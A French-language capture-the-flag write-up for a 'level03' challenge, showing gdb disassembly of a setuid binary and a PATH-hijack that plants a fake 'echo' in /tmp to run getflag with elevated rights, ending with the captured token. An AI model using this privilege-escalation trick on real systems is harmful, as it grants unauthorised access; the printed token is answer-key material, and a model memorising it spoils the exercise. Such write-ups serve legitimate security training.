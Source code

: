 ﻿```bash
$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

$ ./level03
Exploit me
```

On voit ici que le fichier a un s-bit, et que lorsqu'on l'execute, il affiche `Exploit me`.

INFO: Le s-bit sur un fichier fait que le programme s'execute avec les droits de l'utilisateur proprietaire du fichier, et non de l'utilisateur qui l'execute.

Un coup de gdb pour voir ce que fait le main:

```bash
$ gdb -q ./level03
(gdb) b main
Breakpoint 1 at 0x80484ad: file /home/user/level03/level03.c, line 11.
(gdb) disassemble /m
Dump of assembler code for function main:
...
=> 0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
...
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
...
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
...
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
...
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
...
   0x08048503 <+95>:    leave
   0x08048504 <+96>:    ret
```

Bon, a priori:

- Le programme commence par recuperer l'egid et l'euid
- Il set ensuite les resgid et resuid avec ces valeurs
- Il termine par `system("/usr/bin/env echo Exploit me")` (vu grace a la commande `x/s 0x80485e0`)

On peut donc tenter de saboter l'environnement pour que la commande `echo` pointe vers un script qui executera getflag.

```bash
$ echo 'getflag > /tmp/flag03' > /tmp/echo
$ chmod +x /tmp/echo
$ PATH=/tmp:$PATH
$ ./level03
$ cat /tmp/flag03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

Merveilleux!